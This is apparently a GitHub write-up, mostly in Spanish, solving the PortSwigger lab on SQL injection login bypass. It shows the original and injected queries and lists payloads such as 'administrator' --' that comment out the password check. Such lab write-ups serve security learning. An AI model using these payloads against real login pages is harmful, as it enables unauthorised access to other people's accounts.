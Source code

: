 # `Lab`: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:

- En este laboratiorio ya nos dan el nombre del **user** `administrator`, pero no tenemos el **password**.
- El truco está en comentar todo lo que está después del **user** para brincar la condición del **password**.

### Query original:

````sql
select id,username,subscription from users where username = 'administrator' and password = 'p@ssw0rd123-1';
````

### Query inyectada:

````sql
select id,username,subscription from users where username = 'administrator'--' and password = 'p@ssw0rd123-1';
````

---

### Explicación con Lab:

1. Hago exactamente el mismo queary pero adaptado con un `username` de mi base de datos




## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

2. Ingresar el usuario `administrator` con el payload `administrator' --` o `administrator' -- -` o `administrator' #` _(O cualquiera de sus versiones)_

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/cb2feaac-5eef-4207-9786-15aa382ef97d)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/f19586fc-90f0-46e3-8172-66a0c69ccdf9)





